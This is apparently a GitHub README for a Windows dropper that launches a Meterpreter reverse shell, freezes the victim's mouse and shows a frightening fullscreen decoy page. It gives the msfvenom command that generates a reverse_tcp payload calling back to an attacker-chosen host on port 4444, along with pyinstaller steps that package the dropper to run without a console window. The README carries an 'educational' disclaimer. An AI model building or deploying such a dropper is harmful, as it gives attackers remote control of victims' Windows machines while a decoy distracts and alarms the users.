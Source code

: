 # windows-html-decoy-payload
meterpreter payload with html decoy site, more advanced

Windows HTML Decoy + Payload Dropper

This educational repo demonstrates a Windows payload launcher that:
- Executes a Meterpreter reverse shell
- Freezes the user's mouse for 10 seconds
- Opens a **glitchy, red, fullscreen HTML decoy** with dramatic imagery

For security researchers and red team simulation **only**.

---

 Setup & Usage

1. Generate the Reverse Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o shell.exe
```

2. Place `shell.exe` in the `builder/` folder.

3. Build the Dropper (Python Required)

```bash
pip install pyinstaller
cd builder
pyinstaller --noconsole --onefile dropper.py
```

---

Legal

Do **NOT** use this on systems you don't own or without explicit permission.

---

Credits

- Payload launcher logic by Talyx66
- HTML glitch effects custom-crafted
- Image sources used in decoy for visual panic simulation
